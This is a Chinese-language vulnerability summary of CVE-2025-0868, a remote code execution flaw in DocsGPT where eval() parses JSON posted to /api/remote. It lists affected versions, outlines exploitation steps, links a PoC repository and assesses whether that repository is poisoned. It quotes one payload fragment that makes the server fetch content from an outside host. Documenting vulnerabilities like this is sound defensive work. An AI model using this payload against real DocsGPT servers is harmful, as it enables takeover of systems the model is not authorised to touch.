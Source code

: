 ## CVE-2025-0868-DocsGPT-远程代码执行

**漏洞编号:** CVE-2025-0868

**漏洞类型:** 远程代码执行 (RCE)

**影响应用:** DocsGPT

**危害等级:** 高危，可能导致完全控制服务器

**影响版本:** 0.8.1 <= version <= 0.12.0

**利用条件:** 需要网络访问目标DocsGPT实例的/api/remote endpoint

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2025-0868是DocsGPT中的一个远程代码执行漏洞，影响版本0.8.1到0.12.0。漏洞原因是由于程序使用`eval()`函数不正确地解析JSON数据，允许未经授权的攻击者通过`/api/remote`端点发送任意Python代码执行。从提供的POC代码来看，它构造了一个包含恶意Python代码的JSON payload，该代码利用`__import__('requests').get('http://172.17.0.1:1234/')`下载并执行远程HTTP服务器上的内容。如果DocsGPT实例存在此漏洞，则此PoC将有效。

**漏洞利用方式：**
1.  攻击者构造包含恶意Python代码的JSON数据。
2.  攻击者通过POST请求将该JSON数据发送到DocsGPT实例的`/api/remote`端点。
3.  DocsGPT使用`eval()`解析JSON数据，导致恶意Python代码执行。

**投毒风险分析：**
该仓库主要包含一个`poc.sh`脚本和一个`README.md`文件。`poc.sh`脚本本身就是漏洞利用代码，尝试利用目标系统的漏洞。虽然PoC中包含了执行任意代码的可能性，但目前直接存在的“投毒”风险较低。投毒风险在于攻击者如果修改了`poc.sh` 脚本，将`http://172.17.0.1:1234/`修改为恶意地址，可能会造成后续的利用者的机器被感染，例如植入后门、窃取信息等。 因此，我认为存在一定的投毒可能性。但是PoC本身是漏洞验证代码，不属于投毒代码。

**项目地址:** [shreyas-malhotra/PoC_CVE-2025-0868](https://github.com/shreyas-malhotra/PoC_CVE-2025-0868)

**漏洞详情:** [CVE-2025-0868](https://nvd.nist.gov/vuln/detail/CVE-2025-0868)
